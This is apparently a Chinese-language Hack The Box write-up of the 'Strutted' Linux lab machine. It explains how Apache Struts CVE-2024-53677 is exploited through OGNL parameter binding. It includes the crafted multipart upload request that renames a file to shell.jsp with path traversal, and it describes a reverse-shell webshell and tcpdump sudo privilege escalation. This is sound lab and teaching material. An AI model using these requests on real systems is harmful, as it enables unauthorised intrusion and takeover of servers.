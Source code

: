 # 一：拿shell

这是一台LINUX靶机，很久没做linux的了，这一台主要是**CVE-2024-53677: Apache Struts 文件上传漏洞**

nmap扫一下，只有80端口和22端口。

目前感受下来HTB上linux靶机端口开放少，重点web漏洞拿shell，windows重点域渗透，横向移动更重要，很多时候有初始账户，不需要web拿shell

登到web页面看看，经典重定向到strutted.htb，写入/etc/hosts

页面简单明了，就是一个上传文件，限定类型为`Supported file types: JPG, JPEG, PNG, GIF`

左上角有一列链接 ，全点上一遍，在最后的downloads时候下载了一个zip安装包，解压看一看

```
└─# ls
context.xml  README.md  tomcat-users.xml
Dockerfile   strutted
```

```
└─# ls strutted 
mvnw  mvnw.cmd  pom.xml  src  target
```

这里有一个pom.xml。pom.xml是maven的主要配置文件。

maven就是一个 项目管理与构建自动化工具，主要用于 Java 项目。它的目的和Make相同，即自动化构建。Make是通过Makefile指定工作步骤，Maven通过pom.xml指定需要什么配置，然后由maven进行构建。这个思想很类似docker compose的yml配置文件，它们都是声明式配置。

POM 是 Maven 工程的基本工作单元，是一个 XML 文件，包含了项目的基本信息，用于描述项目如何构建，声明项目依赖，等等。

执行任务或目标时，Maven 会在当前目录中查找 POM，获取所需的配置信息，然后执行目标。我们在这个pom.xml配置文件中找到了：

```
<name>Strutted™</name>
    <description>Instantly upload an image and receive a unique, shareable link. Keep your images secure, accessible, and easy to share—anywhere, anytime.</description>

    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
        <struts2.version>6.3.0.1</struts2.version>
```

这里就出现本机主要目标了：Apache Struts文件上传漏洞：CVE-2024-53677

https://www.freebuf.com/vuls/418881.html

> Struts 2.0.0 - 2.3.37（EOL）
>
> Struts 2.5.0 - 2.5.33（EOL）
>
> Struts 6.0.0 - 6.3.0.2

这里的版本是6.3.0.1,刚好受影响。

Apache Struts是美国阿帕奇（Apache）基金会的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。

> **根本原因**: 在解析上传文件的文件名时，Struts 2 内置的 `MultiPartRequest` 实现未能正确处理包含 Unicode 字符的文件名，导致攻击者可以通过构造特殊的文件名来绕过已有的文件扩展名和路径遍历检查，从而将恶意文件上传到服务器上的任意可访问目录。

在 Struts 2 中，有一个重要特性——值栈，它帮助我们能够轻松访问 Action 类中的属性。Action类是structs2的核心类，它存放了很多信息，而我们可以通过值栈访问其中的信息。

比如这样一个类：

```
package com.struts2;
import com.opensymphony.xwork2.ActionSupport;
public class MyAction extends ActionSupport {
    private String message;
    @Override
    public String execute() throws Exception {
        message = "Hello";
        return SUCCESS;
    }
    public String getMessage() {
        return message;
    }
}
```

我们使用top关键字即可访问栈顶对象。[0].top.message就可以访问到Hello

回到靶机，我们原来上传文件的请求如下：

```
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
----WebKitFormBoundary
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain
example text
----WebKitFormBoundary--
```

我们想要上传的文件最后是一个jsp可执行文件，就可以使用[0].top.uploadFilename = “1.jsp”修改，请求包如下：

> 当使用 multipart/form-data 格式提交表单数据时，每个子部分（例如每个表单字段和任何与字段数据相关的文件）都需要提供一个 Content-Disposition 标头，以提供相关信息。标头的第一个指令始终为 *form-data*，并且还必须包含一个 *name* 参数来标识相关字段。

```
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
----WebKitFormBoundary
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain
example text
----WebKitFormBoundary
content-Disposition: form-data; name="top.UploadFileName"
shell.jsp
----WebKitFormBoundary--
```

这里其实有两个问题，为什么数据包中请求就等于执行了？还有为什么这里没有[0]。

这其实就涉及到这个上传漏洞的本质原因：**Struts2 的 OGNL 表达式注入**。

Struts2 框架的核心机制之一就是 **“将 HTTP 请求参数自动绑定到 Action 对象的属性”**。这个机制是由 OGNL 驱动的。struts2会自动提取top.UploadFileName=shell.jsp为OGNL表达式执行，从而绑定参数到Action对象的uploadFile属性，最后保存的文件名就被我们修改了。还有就是为什么没有[0]，因为struct2会先使用ParametersInterceptor类处理HTTP请求中的文件上传请求，提取参数和值，最后通过OGNL表达式绑定到Action类中。而ParametersInterceptor类的isvalid方法有一个过滤：
```
\w+((\.\w+)|(\[\d+])|(\(\d+\))|(\['(\w-?|[\u4e00-\u9fa5]-?)+'])|(\('(\w-?|
[\u4e00-\u9fa5]-?)+'\)))*
```

这个过滤会过滤[0].top，但是[0].top指的本来就是栈顶，和直接top是一样的，所以直接top.UploadFileName绕过过滤。



回到靶机，我们下载的zip压缩包中有源码，分析源码，发现对文件上传本身有两个检测：MIME检测和文件头检测，这简单，直接伪造就可。这里还要注意一点，上传后是生成随即格式如 http://strutted.htb/s/d2dee165的路径。我们无法预测随机数，所以改uploadFilename的时候直接改成`../../shell.jsp`即可

writeup中是上传一个命令执行的jsp，然后下载攻击机反弹shell的sh脚本，添加执行权限并执行，也可以直接使用反弹shell的jsp webshell。

# 二：提权

`sudo -l`查看，发现tcpdump有sudo权限，直接上GTFObins照着方法提权就可。本质是利用tcpdump的两个参数，一个`-z`指定脚本，一个`-Z`指定以哪个用户运行